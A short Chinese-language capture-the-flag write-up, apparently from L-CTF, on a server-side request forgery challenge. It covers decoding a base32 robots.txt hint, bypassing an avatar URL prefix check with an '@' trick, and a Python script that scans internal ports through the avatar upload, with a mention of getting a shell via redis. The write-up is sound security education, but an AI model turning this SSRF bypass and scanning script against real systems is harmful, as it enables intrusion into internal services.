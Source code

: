 ### ssrf ###

得到用户名和密码后，发现admin.php并不能登陆上去，再robots.txt我们得到了提示

```
NEQGM33SM5SXIIDUN4QGIZLMMV2GKIDNPEQHAZLSONXW4YLMEBTGS3DFFR2GQYLUOMQHI33PEBRGCZBMNEQGI33OE52CA53BNZ2CA6LPOUQHI3ZAM5SXIIDTMVRXEZLUL5XGK527NZXXI2LDMUXHA2DQ
```

解base32得到
```
"i forget to delete my personal file,thats too bad,i don't want you to get secret_new_notice.php"

```

直接访问发现提示不是本地访问，那么就是ssrf。

测试修改发现有前缀检查

头像必须是http://web.l-ctf.com:55533开头的，但是我们可以用@来绕过

当时第一反应是扫内网端口，如果内网有redis什么的，可以getshell


附上扫内网端口脚本
```
import requests
from bs4 import BeautifulSoup
import base64

urll = "http://web.l-ctf.com:55533@127.0.0.1:"
url1 = "http://web.l-ctf.com:55533/save.php"
url2 = "http://web.l-ctf.com:55533/ucenter.php"

cookie = {"PHPSESSID": "ljf888c57d6pd9qrcltgrsadd2"}
header = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0", "Connection": "keep-alive"}

s = requests.Session()

# for i in range(22,65535):
data = {"headpic": urll + str("80")}

r = s.post(url1, data = data, cookies=cookie)

r = s.get(url2, headers=header, cookies=cookie)

bs0bj = BeautifulSoup(r.text, "lxml")

try:
	content = base64.b64decode(bs0bj.img['src'][23:])
	
	print content

except:
	s = 1


```
